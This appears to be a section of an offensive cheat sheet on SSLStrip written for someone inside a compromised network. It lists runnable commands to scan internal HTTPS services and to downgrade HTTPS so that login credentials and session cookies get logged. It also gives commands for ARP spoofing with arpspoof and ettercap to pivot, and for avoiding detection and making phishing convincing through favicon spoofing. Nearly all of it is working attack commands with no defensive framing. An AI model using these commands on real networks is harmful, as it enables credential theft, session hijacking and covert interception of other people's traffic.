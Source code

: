 #### Mapping Internal HTTPS Services

Once inside a compromised network, use SSLStrip to map internal services that rely on HTTPS for security.

1. **Scanning for HTTPS Services**: Identifies internal services using HTTPS.
    ```bash
    nmap -p 443 --open -sV <internal_subnet>
    ```
2. **Intercepting Internal Login Credentials**: Logs traffic and captures login credentials for internal services that have been downgraded to HTTP.
    ```bash
    sslstrip -l 8080 -w internal_creds.log
    ```

## Lateral Movement, Pivoting, and Tunneling

#### Moving Laterally by Intercepting Secure Sessions

SSLStrip can help with lateral movement by intercepting sensitive information such as session cookies that allow the attacker to hijack sessions.

1. **Session Hijacking with SSLStrip**: Captures session cookies from downgraded HTTPS requests. These cookies can be used for session hijacking.
    ```bash
    sslstrip -l 8080 -w session_capture.log
    grep "Set-Cookie" session_capture.log
    ```
2. **Using ARP Spoofing to Pivot Through a Network**:  ARP spoofing allows SSLStrip to downgrade HTTPS requests across multiple machines within the network, facilitating lateral movement.
    ```bash
    arpspoof -i <interface> -t <victim_ip> <gateway_ip> &
    sslstrip -l 8080 -w pivot_capture.log
    ```

## Defense Evasion

#### Stealthy MITM Using SSLStrip

1. **Avoid Detection by Limiting SSLStrip Logging**: Runs SSLStrip without modifying the SSL traffic and only logs HTTP traffic to avoid drawing attention.
    ```bash
    sslstrip -l 8080 -p -w minimal.log
    ```
2. **Use Favicon Spoofing for Phishing**: Spoofs favicon requests to make the phishing attempt more convincing.
    ```bash
    sslstrip -l 8080 -f -w favicon_capture.log
    ```
3. **MITM Attack with Low Network Footprint**: Combines ARP spoofing with SSLStrip in a low-profile manner, avoiding noisy logging or excessive DNS queries.
    ```bash
    ettercap -T -M arp:remote /<gateway_ip>/ /<target_ip>/ -q &
    sslstrip -l 8080 -w stealth_capture.log
    ```
